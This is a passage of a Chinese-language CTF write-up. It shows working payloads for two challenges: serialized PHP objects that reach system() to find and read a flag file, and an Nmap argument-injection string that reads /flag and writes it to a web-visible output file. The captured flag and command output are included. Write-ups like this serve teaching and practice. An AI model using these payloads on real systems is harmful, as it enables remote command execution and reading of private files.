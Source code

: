 禁用了一堆函数，看见类尝试使用反序列化试试

首先查看phpinfo，看看配置中禁用的函数，发现啥都没有

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:1:"1";s:4:"func";s:7:"phpinfo";}
```

简单的使用了ls等命令后未发现flag，使用find命令

```
O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";}
```

得到结果

```
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth1/flags
/tmp/flagoefiu4r93
```

之后cat即可

```
O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

## [网鼎杯 2020 朱雀组]Nmap

```
' -iL /flag -oN flag.txt '
```

```
用-iL 把文件名作为选项传给Nmap
```

之后访问flag.txt即可

```
# Nmap 6.47 scan initiated Thu Jan 14 07:15:57 2021 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/fd61f -iL /flag -oN flag.txt \ \\
Failed to resolve "flag{29e8248b-ff71-46ff-8b08-53d0192e158b}".
WARNING: No targets were specified, so 0 hosts scanned.
# Nmap done at Thu Jan 14 07:15:57 2021 -- 0 IP addresses (0 hosts up) scanned in 0.12 seconds
```
